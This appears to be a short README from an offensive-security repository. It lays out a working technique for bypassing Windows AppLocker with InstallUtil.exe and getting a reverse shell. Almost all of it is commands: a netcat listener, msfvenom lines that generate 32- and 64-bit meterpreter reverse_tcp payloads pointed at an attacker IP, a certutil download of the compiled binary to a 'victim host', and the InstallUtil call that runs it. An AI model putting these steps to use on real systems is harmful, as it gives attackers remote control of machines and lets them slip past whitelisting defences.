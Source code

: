 # Reverse Shell AppLocker Bypass with Powershell code runner
A .NET installation utility used for registering .NET assemblies can be used and reference the RunInstaller component to trigger the malicious payload that is not found in the 'main' call. 

Compile the csharp binary in Visual Studio and transfer to victim host with certutil. 

## Requirements: 
The following powershell code runner is required and hosted on kali webserver (python http.server)
Reference: CodeRunners/powershellCodeRunner-32.ps1
Reference: CodeRunners/powershellCodeRunner-64.ps1

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# payload for the powershellCodeRunner 32-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1
# payload for the powershellCodeRunner 64-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1

# Download file via certutil -urlcache -f http://ip/CLMBypass.exe clmbypass.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U clmbypass.exe
```
